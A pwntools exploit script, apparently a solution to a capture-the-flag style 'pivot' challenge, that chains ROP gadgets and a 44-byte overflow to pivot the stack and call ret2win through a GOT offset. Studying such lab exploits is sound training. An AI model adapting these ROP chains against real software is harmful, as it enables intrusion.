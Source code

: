```python
assert 0x0804a024 == foothold_got
print("foothold_got:",hex(foothold_got))
#gadget
xchg_eax_esp = 0x0804882e   # 0x0804882e: xchg eax, esp; ret;
pop_eax = 0x0804882c        # 0x0804882c : pop eax ; ret
assert pop_eax == 0x0804882c
mov_eax = 0x08048830        # 0x08048830: mov eax, dword ptr [eax] ; ret
call_eax = 0x080485f0       # 0x080485f0: call eax;
add_eax_ebx = 0x08048833    # 0x08048833: add eax, ebx ; ret
pop_ebx = 0x080484a9        # 0x080484a9 : pop ebx ; ret
#offset
offset_ret2win_from_gtplt = lib.symbols['ret2win'] - lib.symbols['foothold_function']
foothold_offset = 0x77d     # objdump -d ./libpivot32.so | grep ret2win
ret2win_offset = 0x974      # objdump -d ./libpivot32.so | grep foothold_function

assert offset_ret2win_from_gtplt == ret2win_offset-foothold_offset

def first_input():
    rop = p32(foothold_plt)
    rop += p32(pop_eax)
    rop += p32(foothold_got) #アドレスを移動させなければいけない
    rop += p32(mov_eax)
    rop += p32(pop_ebx)
    rop += p32(offset_ret2win_from_gtplt)
    rop += p32(add_eax_ebx)
    rop += p32(call_eax)
    return rop
def second_input(pivot):
    rop = b"A"*44
    rop += p32(pop_eax)
    rop += p32(int(pivot,16))
    rop += p32(xchg_eax_esp)
    return rop
def info():
    log.info('foothold_offset: %#x' % foothold_offset)
    log.info('ret2win_offset: %#x' % ret2win_offset)

p = process(BINARY)
raw_input(str(p.proc.pid)) #for gdb attach (gdb -p <pid>)
p.recvuntil(b'place to pivot: ')
pivot = p.recvline().strip().decode()
log.info(f'pivot: {pivot}')
p.sendlineafter('> ',first_input())
p.sendlineafter('> ',second_input(pivot))

recv = p.recvall()
log.info(f'recv: {recv}')
# # write data to file
# with open("input", "wb") as f:
#     f.write(rop)
```

